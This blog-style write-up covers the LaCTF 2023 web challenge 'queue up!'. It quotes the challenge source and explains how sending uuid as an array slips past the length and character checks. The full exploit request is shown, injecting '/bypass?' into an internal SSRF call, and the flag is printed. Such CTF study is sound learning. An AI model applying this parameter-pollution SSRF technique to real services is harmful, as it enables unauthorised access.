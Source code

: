 ```yaml
---
layout: post
title: "LaCTF 2023 - queue up! [Web]"
categories: ctf
tags: web ikerl
date: 2023-02-12 22:00:00 +0100
author: ikerl
---
```


queue up! is a web challenge in LaCTF 2023 that ended with 34 solves. The goal is to retrieve a flag that is sent by a web application when the queue goes down and the timer reaches zero. However, with over 20,000 users waiting for the flag, the estimated time to win is about 80+ days (with only one flag being sent every 5 minutes).

```
I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.

Disclaimer: Average wait time is 61 days.
```

![](queued.png)

## Analysis of the Application Design

The first step in solving this challenge is to analyze the source code to identify the most important features to test. The web app consists of two independent servers: the flag server (https://qu-flag.lac.tf/) and the queue server (https://qu-queue.lac.tf/).

The flag server only performs two tasks: if the user requests `/` using the GET method, they will be redirected to the queue server, and if the timer of the queue server reaches zero, the user will be redirected back to the flag server using the POST method, and the flag will be sent.

This is the high-level logic of the web application:

- The user arrives to the flag server.
- The user cannot read the flag until his timer reaches zero, so he is redirected to the queue server to wait.
- When the timer reaches zero the user has the option of being redirected back to the flag server in order to get the flag.

## Source Code Analysis

```javascript=
    app.get("/api/:uuid/status", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            res.send(user.served);

        } catch {
            res.send("false");
        }

    });

    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

During the source code analysis, two key points were identified:

- The queue server has two privileged functionalities only available to administrators. The first is to prioritize users in the queue, reducing waiting time, and the second is to check the status of users in the queue to determine if they can receive the flag.
- The flag server has a uuid verification process. The user submits their uuid in the request body, and the server checks if:
    - The uuid has a length of 36
    - The uuid contains only numbers, letters, and hyphens.
    - If both requirements are met, the flag server will execute a request to the queue server's status functionality to determine if the user can receive the flag.

```javascript=
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

## Vulnerability and Exploitation

There is a critical vulnerability in the checks performed by the flag server. By using arrays, it is possible to bypass both checks and modify the server's request (SSRF) to bypass the user's position in the queue.

The exploit used during this challenge involves sending a POST request to the `/` endpoint of the flag server with the uuid as a POST parameter in the body. This will retrieve the flag.

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 366

uuid[]=70964ab7-1025-4f86-a378-ab3b737bed3a/bypass?&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a
```

![](flag.png)

Note: When clicking the Get my flag! button, the connection may fail because it uses HTTP instead of HTTPS.

Flag: `lactf{Byp455in_7he_Qu3u3}`